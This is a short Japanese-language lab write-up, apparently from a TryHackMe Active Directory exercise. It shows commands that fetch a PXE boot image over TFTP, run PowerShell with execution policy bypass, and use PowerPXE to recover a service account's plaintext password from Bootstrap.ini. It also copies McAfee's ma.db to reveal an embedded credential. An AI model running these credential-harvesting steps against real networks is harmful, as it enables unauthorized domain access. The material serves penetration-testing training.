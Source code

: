 通常、MDT サーバーの IP と、BCD ファイル名は DHCP サーバーから取得する。

```ps
# BCDファイルの取得
tftp -i 10.200.55.202 GET "\Tmp\x64{7111EBDE-3818-4BF2-834B-56787204088C}.bcd" conf.bcd

powershell -executionpolicy bypass

# BCDファイルからブートイメージのパスを取得
Import-Module .\PowerPXE.ps1
$BCDFile = "conf.bcd"
Get-WimFile -bcdFile $BCDFile
>>>> Identify wim file : \Boot\x64\Images\LiteTouchPE_x64.wim
\Boot\x64\Images\LiteTouchPE_x64.wim

# ブートイメージの取得
tftp -i 10.200.55.202 GET \Boot\x64\Images\LiteTouchPE_x64.wim pxeboot.wim
```

PXE ブート イメージから資格情報を回復

```ps
Get-FindCredentials -WimFile pxeboot.wim

>> Open pxeboot.wim
>>>> Finding Bootstrap.ini
>>>> >>>> DeployRoot = \\THMMDT\MTDBuildLab$
>>>> >>>> UserID = svcMDT
>>>> >>>> UserDomain = ZA
>>>> >>>> UserPassword = PXEBootSecure1@
```

## 構成ファイル

自動化ツール  
https://github.com/GhostPack/Seatbelt

### McAfee Enterprise Endpoint Security

インストール中にオーケストレーターに接続するために使用する資格情報が ma.db ファイルに埋め込まれている。

```ps
# ma.db を kaliにコピー
scp thm@THMJMP1.za.tryhackme.com:C:/ProgramData/McAfee/Agent/DB/ma.db .

# データを閲覧するデータを閲覧する
sqlitebrowser ma.db
```

AGENT_REPOSITORIES テーブル

```text
domain: za.tryhackme.com
auth_user: svcAV
auth_password: jWbTyS7BL1Hj7PkO5Di/QhhYmcGj5cOoZ2OkDTrFXsR/abAFPM9B3Q==
```
